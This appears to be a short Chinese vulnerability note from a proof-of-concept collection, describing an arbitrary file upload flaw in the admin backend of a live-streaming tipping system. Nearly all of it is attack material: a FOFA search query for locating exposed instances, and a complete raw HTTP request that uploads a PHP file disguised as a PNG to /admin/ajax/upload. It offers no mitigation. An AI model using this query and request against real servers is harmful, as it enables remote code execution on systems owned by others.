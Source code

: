 # 某短视频直播打赏系统后台任意文件上传漏洞



## fofa

```java
"Location: https://m.baidu.com" && domain!="baidu.com" 
```

## poc

```java
POST /admin/ajax/upload HTTP/1.1
Host: 127.0.0.1:81
Content-Length: 290
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryqVHCE6rweLU4xoLd
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1:81
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:81/admin/stock/add?d=dsp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: userid=1; PHPSESSID=300471c6cebde33867306a662af88460
Connection: close

------WebKitFormBoundaryqVHCE6rweLU4xoLd
Content-Disposition: form-data; name="type"

php
------WebKitFormBoundaryqVHCE6rweLU4xoLd
Content-Disposition: form-data; name="file"; filename="2.php"
Content-Type: image/png

<?php phpinfo();?>
------WebKitFormBoundaryqVHCE6rweLU4xoLd--
```

![image-20240811141210187](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408111412286.png)



## 漏洞来源

- https://mp.weixin.qq.com/s/zg5H5dPoJbLrKEQLY9FfYA